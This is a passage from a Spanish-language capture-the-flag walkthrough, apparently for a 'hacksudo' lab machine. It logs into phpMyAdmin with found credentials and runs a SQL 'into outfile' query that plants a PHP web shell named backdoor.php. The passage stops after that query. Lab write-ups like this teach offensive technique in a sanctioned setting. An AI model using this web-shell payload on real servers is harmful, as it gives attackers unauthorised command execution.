 Por lo que vemos hay unas credenciales y al pertenecer a `mysql` podremos intuir que tiene que ser del panel de login de `phpmyadmin` que descubrimos en el `nmap` que esta en el puerto `9000` por lo que pondremos lo siguiente...

```
URL = http://<IP>:9000/
```

Una vez puesto eso nos llevara al panel de login, si ingresamos las credenciales que encontramos nos dejara entrar...

```
User = vishal
Password = hacksudo
```

Una vez dentro haremos lo siguiente...

Le daremos al boton `New`...

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

Despues ponemos cualquier nombre en la casilla `Database Name` y seleccionamos la primera opcion de la derecha llamada `collation`...

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Create` una vez hecho eso, nos iremos a nuestra base de datos creada...

<figure><img src="../../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

Y le damos a la opcion llamada `SQL`...

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

Dentro metemos el siguiente comando...

```mysql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
```

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>
